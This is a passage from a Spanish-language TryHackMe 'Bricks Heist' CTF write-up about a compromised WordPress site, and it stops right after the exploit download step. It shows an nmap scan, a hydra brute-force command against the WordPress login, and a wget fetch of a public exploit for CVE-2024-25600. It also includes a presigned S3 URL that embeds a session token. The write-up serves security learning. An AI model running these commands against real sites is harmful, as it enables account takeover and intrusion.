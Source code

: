 ```yaml
---
title: "Test"
platform: "THM"
publishedAt: 2025-05-09
cover: "/images/ctf/TExto Enriquesido.webp"
---
```


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5e19dbac-6f69-4b8e-8f73-8ef638bf2a2c/8415f495-a0a4-4a8d-b258-ce28be57dfa6/image.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAZI2LB4663AUYIKUS%2F20250511%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20250511T034512Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEAsaCXVzLXdlc3QtMiJHMEUCIQDezjFxU4lqbqWa481Vn%2F8kvomBZEHeDbYgeuFVs%2B5VxwIge1agb1A99UVWFY%2Ff6ea5m0ubJxh0Pp2Sacd7nJAmPDUqiAQItP%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDGYd3a00mUVQQSv%2FyCrcA%2B1RVfnhtn9FmG0GW4eFlr7ZY6jejKYKgXrb3sIkIZ%2FKA5xyZWxbkOgTohAgiOSPoVosPeuDtOamnBvV58JjnnD5QcU%2BZ8B%2BOQqVmMVLpSSRj0AXrftrwKrOKEDPRkB%2Bzq%2BT0tUpzY4qMWzAoBzDazJVDUG3lQuttrBWfkeEcso%2FvrLZW%2FMqRLPtWM0orFiTsOrGUfL8p45Ptuh82zenfzKeP4TgOovknROvIybZfEH5qKToibwoVLkrlwKfP4BEWonqeOMx7ChV6ONUCr%2Bv9liZHX061KN6HYOqSUP7HKt%2FzEMtkXNBS0wfpIE%2BahJyotiNbdBK%2BzeYhAez07dhj2%2B3yNesf7TkN0Mp%2FVUHbJOl5OHFzIpCMwfqLXiUPoqNIO701th3rdgBS4jYlrsJIep9CZlPH0%2BaJFN%2BwH63tlIIgswOx35iVOZ0TY3NHPMJPtV1iUK2ZQp8PeSD3MRkUviWGByTK9vb5y0m8lSuZBN5usshejtkkfaXCvvLC9w7cH67YIY53pzhM8u6NZG0brIf8imRN%2B1d1XbLzW8oGCccNOwqIj3teICUIuZ4GKQ7DcyiX0fkfmdv8UaK0jddi33IXzt1fx64ufXcrNrPeT3osqXuzRjYIf9ioDfEMNKcgMEGOqUB4UC9Au8t0M%2BVF8rfJJ3%2FQ2mT%2BNCdu9EZPSOPf6eo%2B5QPxTYucrufGGrPzv4klcNtAspFHH40kG8C0G0lLgeuY0hcBCpWXI%2BZ1VE6jTjqrnLA6cVV2XvrHfteyrSiZJVM2B3HXtN8dYeqlkv%2B2uDcDBGcHXvIpP%2FmtGeh4nQEp%2FNk8pub8awoVuX5NxbolH0vXnFzaRYubq7u8O5Tu1uihWAHF648&X-Amz-Signature=acc0e051efd02ba4c277edc71826c4f670b690d19e4bb28a9e55759c83524336&X-Amz-SignedHeaders=host&x-id=GetObject)


[https://www.villaarreola.com/_next/image?url=%2Fmedia%2Fbg.png&w=64&q=75](https://www.villaarreola.com/_next/image?url=%2Fmedia%2Fbg.png&w=64&q=75)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```

